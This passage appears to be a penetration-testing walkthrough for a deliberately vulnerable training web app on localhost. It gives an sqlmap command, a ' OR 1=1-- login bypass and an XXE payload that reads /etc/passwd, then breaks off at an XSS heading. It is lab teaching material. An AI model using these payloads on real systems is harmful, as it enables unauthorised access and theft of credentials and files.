 #### 1. SQL Injection

The login form is vulnerable to SQL injection:

```bash
# Using SQLmap
sqlmap -u "http://localhost:3000/rest/user/login" --data="email=test@test.com&password=test" -p email --dbms=sqlite --level=5 --risk=3
```

Manual exploitation:
- Email: `' OR 1=1--`
- Password: anything

#### 2. Broken Authentication

Password reset functionality contains vulnerabilities:

```bash
# Intercept the password reset request in Burp Suite
# Modify the request to target another user's account
```

#### 3. Sensitive Data Exposure

The application contains Easter eggs with sensitive information:

```bash
# View source code for hidden comments
# Check for sensitive files in robots.txt
curl http://localhost:3000/robots.txt
```

#### 4. XML External Entity (XXE) Processing

The application allows file uploads that can be used for XXE attacks:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

#### 5. Broken Access Controls

The application has numerous access control issues:

```bash
# Access admin areas without proper authentication
# Modify the user ID in requests to access other user accounts
```

#### 6. Cross-Site Scripting (XSS)

Several XSS vulnerabilities exist in the application:
